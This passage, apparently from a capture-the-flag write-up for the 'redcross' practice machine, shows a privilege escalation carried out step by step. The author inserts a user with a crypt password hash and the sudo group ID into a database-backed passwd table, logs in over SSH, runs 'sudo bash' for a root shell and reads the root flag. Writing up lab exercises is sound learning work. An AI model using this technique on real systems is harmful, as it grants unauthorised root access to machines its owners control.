 Then I'll add the user to the table. I was originally going to add just a regular user, but then I thought why not try to add them to the "sudo" group as well.

```bash
cat /etc/group | grep sudo
sudo:x:27:
```

Checking for the GID of sudo.

```bash
unix=> insert into passwd_table (username, passwd, gid, homedir) values ('goob', '$1$FDNc7qzf$7sSe7.Dq37m4DqhpU.GZX0', 27, '/dev/shm');
INSERT 0 1
```

It didnt error, which is always a good sign lol.

```bash
 goob     | $1$FDNc7qzf$7sSe7.Dq37m4DqhpU.GZX0 | 2024 |   27 |       | /dev/shm       | /bin/bash
```

The user shows up in the table :D


```bash
ssh goob@redcross.htb            
goob@redcross.htb's password: 
Linux redcross 4.19.0-25-amd64 #1 SMP Debian 4.19.289-2 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
goob@redcross:~$ id
uid=2024(goob) gid=27(sudo) groups=27(sudo)
goob@redcross:~$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for goob: 
root@redcross:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@redcross:/dev/shm# cat /root/root.txt 
7b3c9630ccdfe68REDACTED
```

The SSH connection is accepted with goob:password and I'm able to run "sudo bash" to gain a root shell!! I didn't think I was going to be completely skipping the whole user part of this machine haha.
